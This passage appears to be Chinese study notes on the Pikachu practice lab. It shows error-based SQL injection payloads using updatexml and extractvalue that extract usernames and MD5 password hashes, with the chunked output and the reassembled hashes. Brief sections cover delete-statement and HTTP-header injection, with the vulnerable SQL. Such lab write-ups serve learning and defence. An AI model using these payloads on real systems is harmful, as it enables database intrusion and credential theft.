 获取用户名、密码：

```sql
'
1' and updatexml(1,concat('~',(select group_concat(username,'@',password) from pikachu.users)),0) or'
#
1' and extractvalue(1,concat('~',(select group_concat(username,'@',password) from pikachu.users))) or'
```

回显：XPATH syntax error: '~admin@e10adc3949ba59abbe56e057f'

**回显长度有限制，为 32 字符**

使用 substring(str,start,length)函数，start 从 1 开始

```sql
'
1' and updatexml(1,concat(0x7e,substring((select group_concat(username,'@',password)  from pikachu.users),1,30)),0) or'
'
#01-30#~admin@e10adc3949ba59abbe56e057
#31-60#~f20f883e,pikachu@670b14728ad99
#61-90#~02aecba32e22fa4f6bd,test@e99a1
#91-  #~8c428cb38d5f260853678922e03
```

**admin@e10adc3949ba59abbe56e057f20f883e,**

**pikachu@670b14728ad9902aecba32e22fa4f6bd,**

**test@e99a18c428cb38d5f260853678922e03**

#### 1.1.7. "delete"注入

sql 语句：

```sql
delete from message where id={$_GET['id']}
```

使用 updatexml 尝试显错注入

#### 1.1.8. "http header"注入

sql 语句：

```sql
//这里把http的头信息存到数据库里面去了，但是存进去之前没有进行转义，导致SQL注入漏洞
insert httpinfo(userid,ipaddress,useragent,httpaccept,remoteport) values('$is_login_id','$remoteipadd','$useragent','$httpaccept','$remoteport')
```

原理：

http-header 消息主要分成四个部分：general header ,request header ,response header,entity header。

http-header 注入漏洞正是由于后台把超文本传输头中的一些信息拿去拼接到 sql 语句中又不做安全处理造成的。

